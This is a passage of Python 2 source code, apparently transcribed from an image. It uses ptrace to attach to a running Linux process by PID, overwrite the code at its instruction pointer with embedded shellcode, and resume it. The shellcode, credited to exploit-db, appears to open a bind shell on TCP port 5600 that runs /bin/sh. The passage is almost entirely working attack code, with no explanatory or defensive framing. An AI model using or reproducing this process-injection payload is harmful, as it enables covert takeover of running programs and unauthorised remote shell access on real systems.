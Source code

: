 ```python
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))
print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db. https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c
shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
    # Convert the byte to little endian.
    shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
    shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
    shellcode_byte=int(shellcode_byte_little_endian,16)

    # Inject the byte.
    libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
